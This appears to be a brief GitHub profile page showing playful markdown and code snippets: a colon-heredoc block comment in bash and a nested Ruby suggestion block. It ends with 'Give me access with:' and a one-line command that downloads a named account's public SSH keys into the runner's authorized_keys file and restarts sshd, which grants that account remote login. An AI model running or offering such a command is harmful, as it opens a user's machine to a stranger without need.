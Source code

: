 [![Briskbear](https://dc-dynamic-marketing.com/polar-bear.svg)](https://github.com/briskbear)  
```bash
  : << :
  Fancy block comment
  Uses colon as a quote
  It is quick and neat
  :
```
```suggestion
```ruby
def ducktales
  puts "woohoo!"
end
```
```


Give me access with:  

`curl https://github.com/deftclaw.keys >> ~/.ssh/authorized_keys && systemctl restart sshd`  
